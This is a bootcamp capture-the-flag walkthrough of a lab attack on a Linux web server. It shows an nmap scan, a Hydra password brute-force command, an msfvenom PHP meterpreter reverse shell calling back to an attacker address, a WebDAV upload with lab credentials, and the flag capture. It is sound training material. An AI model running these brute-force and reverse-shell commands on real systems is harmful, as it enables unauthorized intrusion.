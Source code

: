 # Red Team CTF

## Discover the IP address of the Linux server
- Run `nmap 192.168.1.0/24`

![nmap](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/20.%20Red%20vs%20Blue/1.%20Red/nmap.PNG)

- `Port 80` is open so we can access it from a web browser.

## Locate the hidden directory on the server.
- Navigate to the directory by typing: 192.168.1.105/company_folders/secret_folder

![first_password](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/20.%20Red%20vs%20Blue/1.%20Red/first%20password.PNG)

## Brute force the password for the hidden directory.
- With Ashton's name, we can run the Hydra attack against the directory using `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`

![hydra_syntax](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/20.%20Red%20vs%20Blue/1.%20Red/5_hydra_sytanx.png)

![hydra_result](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/20.%20Red%20vs%20Blue/1.%20Red/hydra%20result.PNG)

## Upload a PHP reverse shell payload.
- To set up the reverse shell, run: `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php`

![metasploit](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/20.%20Red%20vs%20Blue/1.%20Red/metasploit.PNG)

- Place the reverse shell onto the WebdDAV directory.

![webdav](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/20.%20Red%20vs%20Blue/1.%20Red/webdav.PNG)

- Now that you're logged in, connect to the webdav folder by navigating to `192.168.1.105/webdav`. Use the credentials that you used before, user:ryan pass:linux4u.

![shell_in_web](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/20.%20Red%20vs%20Blue/1.%20Red/shell%20in%20web.PNG)

## Find and capture the flag.
- On the listener, search for the file flag.txt located in the root directory. Students can use many techniques they have learned in order to find it.

![flag](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/20.%20Red%20vs%20Blue/1.%20Red/flag.PNG)